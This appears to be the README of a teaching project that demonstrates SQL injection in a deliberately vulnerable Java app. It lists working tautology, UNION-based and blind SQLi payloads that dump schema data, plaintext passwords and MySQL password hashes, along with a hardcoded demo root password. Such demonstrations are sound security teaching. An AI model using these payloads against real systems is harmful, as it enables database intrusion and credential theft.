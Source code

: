 # SQL Injection in Java: Practices to Avoid

Thanks
    https://sec.okta.com/articles/2020/12/sql-injection-java-practices-avoid

### Requirements
* Docker desktop
* Java 8


### Start Mysql in Docker
Since we need to show vulnerabilities with Stored procedure and 'Principle of least privileges' we are using a Mysql
instance running in Docker

Build Docker image 

    cd docker/sqlinjection
    docker build -t sqlinjection_demo:latest .

Run docker 

    docker run -p 3307:3306 --name local-mysql -e MYSQL_ROOT_PASSWORD=11asd097asd -d sqlinjection_demo:latest

### Run the application

    cd ../../
    ./mvnw spring-boot:run
    
### Connect to mySql
To connect to mySql use

    Open terminal and run "mysql -h 127.0.0.1 -P 3307 -uroot -p11asd097asd"  
    
    Feel free to inspect mySql content:
    mysql> "show schemas;"
    mysql> "show databases;"
    
    select * from employees.employee;
    select * from management.employee_review;
    SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
    SELECT * FROM INFORMATION_SCHEMA.TABLES; 
    select authentication_string from mysql.user where User='empdb_user'; 
    
        
# Additional info


    
Normal call

    http://127.0.0.1:8080/filterUserUnSafe?name=Frodo
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret
    
Simple SQLi

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1  

Union based SQLi to get table_schema,table_name FROM information_Schema.tables
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo'union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1


Union based SQLi to get data from any table

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo’ union all select 1, concat(review,’-----',rating),review,  ‘STAFF’  from management.employee_review where ‘1’=’1


Union based SQLi to get plain passwords
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

Blind SQLi to get chars from mysql.user
    
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or ' 

?    
Blind SQL injection to get some data from INFORMATION_SCHEMA

    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret%27%20and%20(select%20CASE%20WHEN%20(substring(authentication_string,1,1)%20=%20%27$%27%20)%20THEN%20true%20ELSE%20false%20END%20from%20%20mysql.user%20where%20User%20=%20%27empdb_user%27)%20or%20%27    